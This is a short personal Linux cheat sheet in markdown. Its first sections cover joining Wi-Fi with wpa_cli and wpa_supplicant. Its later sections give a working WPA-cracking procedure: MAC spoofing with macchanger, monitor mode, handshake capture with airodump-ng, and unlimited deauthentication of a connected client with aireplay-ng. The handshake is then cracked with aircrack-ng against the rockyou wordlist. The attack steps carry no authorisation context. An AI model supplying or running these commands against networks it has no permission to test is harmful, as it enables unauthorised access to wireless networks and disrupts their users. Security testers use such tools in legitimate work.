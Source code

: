 [[LINUX]]
# wlan

## adding wlan with wpa_cli  
- find out device with `ip link`
- start prg with `wpa_cli -i INTERFACE`
- `scan`
- `add_network` (output will be network nr)
- `set_network NR ssid "SSID"`
- `set_network NR psk "PASSWORD"`
- `enable_network NR`


## adding wlan interface and configuring
```
cp /etc/wpa_supplicant/wpa_supplicamt.conf /etc/wpa_supplicant/wpa_supplicant-<DEVICE>.conf

sudo ip link set up <INTERFACE_NAME>

wpa_passphrase <MYSSID> <KEY> >> /etc/wpa_supplicant/wpa_supplicant-<DEVICE_NAME>.conf

sudo wpa_supplicant -B -i <DEVICE> -c /etc/wpa_supplicant/wpa_supplicant-DEVICE.conf
```

## checking for other wifi signals
### wavemon


### airodump-ng
- install `aircrack-ng`

- put wifi interface in monitor mode:
  ```
  ifconfig WLAN down
  macchanger -r WLAN
  iwconfig WLAN mode monitor
  ifconfig WLAN up
  ```
  **OR**
  `airmon-ng start WLAN`
  
- now monitor the wifi signals 
  `airodump-ng WLAN`

## catch the handshake
open two terminals.  
- start airmon-ng on the 1st
  `airodump-ng WLAN --bssid BSSID -c CHANNEL --write FILENAME`  

- start aireplay-ng on the second in order to deauthenticate the client, forcing
  it to reconnect and retrieving the handshake as a consequence.
  `aireplay-ng --deauth 0 -a BSSID -c CLIENT WLAN`

## crack the password
`aircrack-ng FILENAME -w /usr/share/wordlist/rockyou.txt`
